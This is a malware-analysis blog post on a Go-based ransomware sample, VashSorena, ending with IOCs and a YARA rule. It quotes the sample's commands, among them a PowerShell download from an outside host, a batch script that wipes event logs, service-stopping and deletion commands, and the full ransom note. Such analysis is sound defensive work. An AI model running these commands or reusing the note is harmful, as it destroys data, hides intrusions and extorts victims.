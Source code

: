 ```yaml
---
layout: post
title: "VashSorena Ransomware"
---
```


After seeing this [tweet by @fbgwls245](https://twitter.com/fbgwls245/status/1393788011502997506?s=20), I wanted to try my hand analyzing some Go based malware. The sample is available on [Malware Bazaar](https://bazaar.abuse.ch/sample/39908c43e4124d6fd3362a5cf04cfbc4ac601ee35faf84a21c7979fdf74f05a6/).


One of the first steps I take in analyzing any executable malware is throw it into pestudio. Because all Go binaries are [statically linked](https://en.wikipedia.org/wiki/Static_library) the binaries are huge and contain a lot of library code - this causes pestudio to take a long time to analyze the file. This sample appears to be a valid 64 bit PE, that is not packed. One thing that stands out in the strings analysis portion is the gigantic size of the strings inside the binary. This is a trait of Go - strings are lumped together and accessed by knowing size, unlike C strings that rely on a null terminator (`\0`). This will cause some headaches later, but is not a major obstacle.


![32cd52f26d5bfa135437bc237f50f0e8.png](/images/5bf89193dfa84702be553600dd84c6ba.png)

One Ghidra script that can come in handy is [`golang_renamer.py`](https://github.com/ghidraninja/ghidra_scripts/blob/master/golang_renamer.py). If you're dealing with a stripped binary, this script can help restore function names. Symbols for this binary weren't stripped, so this script isn't necessary here, but I ran it anyway for consistency in function names with other samples.

If you search for `main_` in the Ghidra function window, it will show you the important functions of the program.


![af8559b0a41ccc87e5964b6ec46f8e9e.png](/images/fb8c16fadf914e4c87999bcb5ebc1cdb.png)

There's a lot to cover here, let's start with `main_main`. This is our equivalent of `WinMain` in C based binary. Inside the main body of this function, there are several function calls:


![0a8524bf409b941a0f5b8773fc95b269.png](/images/6961d9fdb0db4b4a8e1ba366011b6739.png)

`main_setIconForExtension_4d7370`
This executes a shell command `reg add HKEY_CLASSES_ROOT\\.Encrypt\\DefaultIcon /t REG_SZ /d %SystemRoot%\\System32\\SHELL32.dll,134 /f` which adds a default icon to the `.encrypt` file type.

To determine what that icon actually is, you can open up `shell32.dll` in Visual Studio and browse for icon #134.  

![05d11fe48c8b441da9efbcbea5d9dfdd.png](/images/09e2c0542d0546129ca9b2d68055598e.png)

One thing that you'll frequently run into during analysis of this binary, is the string issue I mentioned previously. You'll see a string snippet reference here:


![0a944834fcca6ff2e5e2d7f8f2fbb444.png](/images/055d1cb0774f47bab246a741deff4c4b.png)

But if you view the data, it looks like a giant blob of text with cross references everywhere.


![735a271b2ced6d3e9d8916eda7cce6cf.png](/images/33339a560f214c8d820f78263f888d42.png)


By highlighting this variable, right clicking and changing the data type to char, Ghidra will break these apart in a more sane manner. It won't be necessary to recreate all of the strings in the binary, but when you find a reference in the code, jumping back to that section, highlighting the appropriate characters, right clicking and choosing "string" will make your disassembly more readable. (After you've done this once, Ghidra allows you to use "y" as a hotkey to save you some clicking. )



![1ea56d2b3804a628698fb9ca0ce70c41.png](/images/5a0346b01868470d8423721e72b3cdff.png)



`main_KillProcess_4D7420`
This function runs a shell command `taskkill /F /IM ` attempting to kill the processes:

- sqlceip.exe
- sqlwriter.exe
- Spoof.uxe.tmp

`main_delExploit_4D75A0`
This function attempts to clean up several files (presumably, based on function name and location in the program) used to gain access:

- `c:\Users\Public\us.bat`
- `c:\Users\Public\2008.exe`
- `c:\Users\Public\Spoof.uxe.tmp"`
- `c:\Users\Public\rdp.bat`

`main_ClearUsercache_4D7640`
Calls `rmdir` to delete the user's AppData directory

`main_FirstDuty_4D7860`
Calls `attrib +h +s Encrypt.exe`, making the `Encrypt.exe` executable labeled as a hidden, system file.

Then, the function proceeds to use `net stop` to stop a variety of running services:

-MSSQL$SQLEXPRESS
-MSSQLSERVER
-SQLSERVERAGENT
-mysql
-plesksrv

Nested inside this function is a call to `main_getdrives_4D7F70` that loops through the alphabet, A-Z, and attempts to see if there is a drive located there.  

`main_ClearLogDownload_4D9F10`
This function calls PowerShell, with the command `(New-Object System.Net.WebClient).DownloadFile('https://moonlightkrippe.ch/DesktopModules/Journal/clear.txt', 'C:\LOG.bat')`

After retrieving the contents of the file for analysis:
```
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo goto theEnd
:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof
:noAdmin
exit
```
Essentially, it is downloading a script that checks if the malware has admin access, and if it does, will use `wevutil.exe` to clear Windows Event logs. After download, the script is invoked in the `main_ClearLog_4D9FC0` function.

`main_MessageRan_4D96D0`
This function writes the ransom note, named `Decrypt_files.txt` to various places on the system. Here is the content of the ransom note:
```
++++++++++++++++++++++++++++++++ Hack For Mandatory Security ++++++++++++++++++++++++++++++++
All Your Files Has Been Locked!
If you think you can decrypt the files we would be happy :)
But all your files are protected by strong encryption with AES RSA 256 using military-grade encryption algorithm
Video Decrypt: Due to the deletion of video on video sharing sites
You can download and watch the video from the link below:

++++++++
https://drive.google.com/file/d/1QAhLOX-sQuyjk31LPPpseRlhaLKEZ_t7/view
++++++++
What does this mean ?
This means that the structure and data within your files have been irrevocably changed,
you will not be able to work with them, read them or see them,
it is the same thing as losing them forever, but with our help, you can restore them.
You Can Send some Files that not Contains Valuable Data To make Sure That Your Files Can be Back with our Tool
Your unique Id :
What are the guarantees that I can decrypt my files after paying the ransom?
Your main guarantee is the ability to decrypt test files.
This means that we can decrypt all your files after paying the ransom.
We have no reason to deceive you after receiving the ransom, since we are not barbarians and moreover it will harm our business.
You Have 2days to Decide to Pay
after 2 Days Decryption Price will Be Double
And after 1 week it will be triple Try to Contact late and You will know
Therefore, we recommend that you make payment within a few hours.
Do not rename encrypted files.
Do not try to decrypt your data using third party software, it may cause permanent data loss.
Again, we emphasize that no one can decrypt files, so don't be a victim of fraud.
It's just a business
Warning : If you email us late You may miss the Decrypt program Because our emails are blocked quickly So it is better as soon as they read email Email us ;)
You can buy bitcoins from the following sites
https://crypto.com
https://www.binance.com
https://www.coinbase.com/
https://localbitcoins.com/buy_bitcoins
https://www.coindesk.com/information/how-can-i-buy-bitcoins
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> Hack For Security <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<
```

From there the binary will rely on some standard crypto functions to prepare a key and other less interesting things, before executing `main_walk_4D84E0` which walks through files on the file system and skips encryption if their path contains:

- `Decrypt_files.txt`
- `Encrypt.exe`
- `ngrok.exe`
- `Log.bat`
- `C:\Windows`
- `C:\Program Files\Reference Assemblies\`
- `C:\Program Files\Common Files\`
- `C:\Program Files\Internet Explorer\`
- `C:\Program Files (x86)\Reference Assemblies\`
- `C:\Program Files (x86)\Common Files\`
- `C:\Program Files (x86)\Internet Explorer\`
- `C:\Program Files\WindowsApps\`
- `C:\Program Files\Embedded Lockdown Manager\`
- `C:\Program Files\VMware\`
- `C:\ProgramData\Microsoft`

Before finally encrypting with `main_encrypt_4D91B0`, giving a file a new extension of `.Email=[decrypt8070@gmail.com]ID=[VVYUTQCVIAAAKVLP].Encrypt`.

IOCs
Type|Value
---|----
MD5 | `631101614bb5dac04fed6a14470b045e`
SHA256 | `39908c43e4124d6fd3362a5cf04cfbc4ac601ee35faf84a21c7979fdf74f05a6`
File name | `c:\Users\Public\us.bat`
File name | `c:\Users\Public\2008.exe`
File name | `c:\Users\Public\Spoof.uxe.tmp"`
File name | `c:\Users\Public\rdp.bat`
File name | `C:\LOG.bat`
File name | `Encrypt.exe`
File name | `Decrypt_files.txt`
Registry Modification | `HKEY_CLASSES_ROOT\\.Encrypt\\DefaultIcon`
URL | `https://moonlightkrippe.ch/DesktopModules/Journal/clear.txt`

YARA Rule
```
rule VashSorena {
	meta:
		description = "Rule to detect VashSorena Ransomware"
		author = "@hackpatch"
		date = 05172021
		url = "https://www.hacknpatch.com/2021/05/17/VashSorenaRansomware.html"

	strings:
		$mz = {4d 5a}
		$str1 = "C:/Users/VOMINO.IR/" nocase ascii
		$str2 = "Encrypt.go" nocase ascii
		$str3 = "Hack For Security" nocase wide ascii
		$str4 = "moonlightkrippe.ch" nocase wide ascii
		$str5 = "attrib +h +s Encrypt.exe" nocase wide ascii

	condition:
		$mz at 0 and 3 of ($str*)
}
```
